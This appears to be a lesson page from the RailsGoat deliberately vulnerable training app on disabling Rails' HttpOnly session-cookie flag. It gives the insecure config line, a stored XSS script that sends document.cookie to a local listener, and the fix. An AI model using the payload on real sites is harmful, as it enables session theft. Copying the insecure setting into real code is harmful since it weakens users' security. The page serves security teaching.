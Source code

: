 # Description

The HttpOnly flag prevents access to the document.cookie attribute of the DOM via JavaScript. Helpful for limiting the impact of Cross-Site Scripting as it relates to session theft.

# Bug

By default, Ruby on Rails protects its' cookies with the HttpOnly flag. However, it is possible to disable this security protection and is not recommended. You can disable this protection using the flag highlighted below. This is an insecure and unnecessary change.

```ruby
Railsgoat::Application.config.session_store :cookie_store, key: '_railsgoat_session', httponly: false
```

# Solution

### Lack of the HttpOnly Flag - ATTACK

Navigate to the sign-up page, sign up as a user, but in the first name field, enter:

```javascript
<script>document.location="http://localhost:8000/" + document.cookie </script>
```

Additionally, fire up Python's SimpleHTTPServer module using the following command:

```bash
$ python -m SimpleHTTPServer
```

Additionally, fire up Python's SimpleHTTPServer module using the following command:

### Lack of the HttpOnly Flag - SOLUTION

Keep the default configuration "as-is" and do not make this change. If this exists in your code base, remove it.

# Hint

Can JavaScript interact with my session cookie?